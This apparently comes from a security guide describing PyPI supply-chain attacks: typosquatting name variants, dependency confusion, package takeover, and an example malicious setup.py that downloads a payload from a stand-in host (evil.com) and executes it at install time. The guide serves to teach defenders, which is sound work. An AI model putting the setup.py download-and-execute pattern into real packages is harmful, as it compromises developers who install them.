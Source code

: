 ## Common PyPI Attack Vectors

### 1. Typosquatting

Despite security measures, typosquatting remains a concern:

```bash
# Legitimate packages vs malicious variants
requests    ->  request, requsts, reqeusts
numpy       ->  nympy, numpi, numpy-dev
django      ->  djago, django-admin, djangos
flask       ->  falsk, flask-login, flasks
```

### 2. Dependency Confusion

Exploiting package name resolution:

```bash
# Example attack scenario
# 1. Attacker identifies internal package name
# 2. Publishes package with same name to PyPI
# 3. Developer accidentally installs public version

# Protection: Use private package index
pip install package --index-url https://private-pypi.company.com/
```

### 3. Setup.py Exploitation

Malicious code in setup.py files:

```python
# Example malicious setup.py
from setuptools import setup
import base64
import urllib.request

# Download and execute malicious payload
payload = urllib.request.urlopen('https://evil.com/payload.py').read()
exec(compile(base64.b64decode(payload), '<string>', 'exec'))

setup(name='innocent-package', version='1.0.0')
```

### 4. Package Takeover

Compromising existing packages:

1. **Account compromise**: Stealing maintainer credentials
2. **Social engineering**: Convincing maintainers to add attackers
3. **Package abandonment**: Taking over unmaintained packages
4. **Transfer exploitation**: Exploiting package ownership transfers
